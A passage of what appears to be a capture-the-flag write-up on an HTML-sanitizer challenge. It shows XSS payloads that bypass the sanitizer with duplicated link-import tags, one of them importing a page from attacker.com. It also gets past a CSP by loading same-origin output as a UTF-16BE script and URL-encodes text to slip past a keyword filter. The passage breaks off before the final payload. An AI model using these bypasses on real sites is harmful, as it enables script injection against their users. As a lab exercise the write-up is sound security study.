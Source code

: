 {% highlight html %}
<link rel="import"><link rel="import" href="http://attacker.com/pwn.html">
{% endhighlight %}

Using this payload, the sanitized HTML added to the DOM looks like this: 

{% highlight html %}
<link rel="import" href="http://attacker.com/pwn.html">
{% endhighlight %}

We can therefore include a HTML page, effectively bypassing the sanitizer.


### CSP bypass
Outside of the sandbox that won't work though, since the CSP only allows same-origin scripts. And here I got stuck for a while. I tried to import the `/sandbox?html=` page, which changes the CSP to allow cross-domain scripts via the `/sanitize` script, but `/sanitize` is only served if requested from inside the sandbox, so that didn't work. 

I thought that there must be a way to include a useful script from the same origin. The only point where we control some output is the `/sandbox?html=` endpoint. However, it prepends our output with some HTML, so it is not valid javascript. But `<script>` tags also take a [charset argument](https://www.w3schools.com/tags/att_script_charset.asp), which can force the charset of the script. It turns out, if we parse `/sandbox?html=` output as UTF-16BE, the output is a valid (but undefined) javascript identifier. We can therefore simply add a payload like `=0;alert(1)` (UTF-16BE encoded) and if we include it, we will see the alert popup!

Unfortunately `utf-16be` is one of the filtered keywords:
{% highlight js %}
while (html.match(/meta|srcdoc|utf-16be/i)) html = html.replace(/meta|srcdoc|utf-16be/i, ''); 
{% endhighlight %}

However, there is a way to bypass it. Using the `/sandbox?html=` endpoint once again, we can basically request a page from the same-origin with any HTML we desire. The parameter can be URL encoded, which therefore can be used to bypass the keyword filter. For example, the following payload will import an HTML page containing a custom `<meta>` tag: 
{% highlight js %}
<link rel="import"><link rel="import" href="/sandbox?html=<met%61%20foobar>">
{% endhighlight %}
If you check in Chrome, you can see the imported HTML and the meta tag: 

![meta]({{ site.url }}/imgs/gctf_xsanitizer_1.png).

### Final payload
Replacing the meta tag with something more useful like a `<script>` with custom charset results in the following payload: 

{% highlight html %}
<link rel=import><link rel=import href="https://sanitizer.web.ctfcompetition.com/sandbox?html=<script charset=%22utf-16b%65%22%20src=/sandbox%3fhtml=PAYLOAD></script>">
{% endhighlight %}

We have url-encoded one character of `utf-16be` to bypass the keyword filter. All that remains now is to replace `PAYLOAD` with the UTF-16BE payload. Encoding ASCII strings to UTF-16BE is simple: prepend each character with a null byte. I have used the following payload:
